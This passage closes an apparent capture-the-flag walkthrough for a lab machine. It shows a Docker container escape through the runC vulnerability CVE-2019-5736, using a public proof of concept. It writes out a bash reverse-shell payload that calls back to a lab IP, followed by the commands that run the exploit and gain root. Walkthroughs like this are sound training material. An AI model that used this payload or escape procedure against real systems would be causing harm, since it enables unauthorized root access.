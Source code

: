 
At this point I looked for some PoC code and came across the following Github project: <https://github.com/Frichetten/CVE-2019-5736-PoC>. In order to run the exploit, I needed to do the following:

> Modify the code however you see fit and compile it with go build main.go. Move that binary to the container you'd like to escape from. Execute the binary, and then the next time someone attaches to it and calls /bin/sh your payload will fire.

I created a simple payload which would return a reverse shell, as shown below:

```bash
var payload = "#!/bin/bash \n bash -i >& /dev/tcp/10.10.14.73/1234 0>&1"
```

Once I had the payload, I did the following:
* In the exploited docker container, I retrieved the newly created exploit
* Added execute permissions to the file (`chmod +x notebook_exploit`)
* Ran the exploit (`./notebook_exploit`)
* In another SSH terminal, I called `/bin/sh` using the sudo permissions (`/usr/bin/docker exec -it webapp-dev01 /bin/sh`)

By running these commands in the order shown above, I was able to exploit the runC vulnerability and obtain a root shell:

<p class="imgMiddle">
<img src="/assets/img/ChallengeVMs/TheNotebook/img10.png"  style="width: 80%" />
</p>



That's the box! I hope that the walkthrough helped someone. If you found it interesting at all or if you think it was missing some crucial information, please reach out to me so that I can continue improving as I create more posts.